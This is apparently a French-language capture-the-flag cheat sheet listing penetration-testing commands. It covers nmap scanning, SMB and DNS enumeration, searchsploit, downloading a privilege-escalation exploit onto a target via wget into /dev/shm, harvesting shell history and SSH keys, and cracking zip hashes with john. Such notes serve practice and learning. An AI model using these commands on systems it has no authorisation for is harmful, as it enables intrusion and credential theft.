 # Capture The Flag

- [Capture The Flag](#capture-the-flag)
  - [Reconnaissance](#reconnaissance)
    - [Scan de port](#scan-de-port)
    - [TODO Enumération SMB](#todo-enumération-smb)
  - [Metasploit](#metasploit)
  - [DNS](#dns)
  - [Vulnérabilités](#vulnérabilités)
  - [Local Privilege Escalation](#local-privilege-escalation)
  - [Cassage de mot de passe](#cassage-de-mot-de-passe)
  - [SQLite](#sqlite)

Liens :
- https://attack.mitre.org/matrices
- https://www.thehacker.recipes
- https://nicolasb.fr/blog/dghack-my-second-ctf

Départ :
- commencer par brancher le câble réseau 😉
- lancer Wireshark pour observer ce qu'il se passe sur la ligne
- s'assigner une IP sur le même réseau

## Reconnaissance

De manière générale :
- remarquer les versions

Si t'obtiens un accès sur un linux/windows :
- regarder l'historique des commandes
- regarder dans `$HOME/.ssh/`
- regarder la table ARP (pour découvrir des hôtes sans faire de scan)
- regarder les routes pour découvrir d'autres réseaux

Sur Linux :
```bash
history
find /root /home -name *history*

find {/root,/home/*}/.ssh

ip n
ip -br a; echo; ip r
```

Sur Windows :
```powershell
ipconfig -all
arp -a
route
```

### Scan de port

```bash
# pinguer tout les hôtes d'un réseau (port 80 + ICMP echo-request)
nmap -T4 -sP 192.168.0.0/24

# scan discret (n'envoi que des TCP SYN, moins de chance que les connexions soient loggés)
nmap -T4 -sS <ip>

# OS + info sur les services
nmap -T4 -A -oN scan1.txt <ip>
# scan de vuln
nmap -T4 -sV --script vulners -oN scan1.txt <ip>
# sur tous les ports
nmap -T4 -sV --script vulners -oN scan1.txt <ip> -p-
```

### TODO Enumération SMB

Si les ports `139` et `445` sont ouverts, il y a des chances que SMB tourne sur la machine.

```bash
enum4linux -U <ip>
```

## Metasploit

`msfconsole`

## DNS

Si on a trouvé un serveur DNS :
```bash
echo 'nameserver <ip>' >> /etc/resolv.conf
```

Voir tous les enregistrements d'un domaine :
```bash
host -a example.com
```

Mapper un domaine : https://dnsdumpster.com

Pour faire un transfert de zone :
```bash
dig @<?> AXFR <fqdn ?>
```

## Vulnérabilités

Pour chercher des vulnérabilités :
- https://www.exploit-db.com
- https://nvd.nist.gov/vuln/search

ou la commande `searchsploit`:
```bash
# pour chercher (case insensitive AND)
searchsploit cutenews
# lire l'exploit
searchsploit -x <filename>
# copier l'exploit dans le CWD
searchsploit -m <filename>
```

## Local Privilege Escalation

Sur la machine cible :
```bash
# obtenir la version du noyau Linux
uname -a

# télécharger l'exploit (et le stocker en RAM)
wget URL > /dev/shm/lpe
```

Sur ta machine :
```bash
# regarder s'il existe des exploit
searchsploit 4.15
# le télécharger
searchsploit -m <filename>
# l'héberger
python -m SimpleHTTPServer
```

## Cassage de mot de passe

Pour extraire le hash du mot de passe d'un zip : `zip2john file.zip > hash.txt`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## SQLite

```bash
sqlitebrowser fichier.sqlite
```
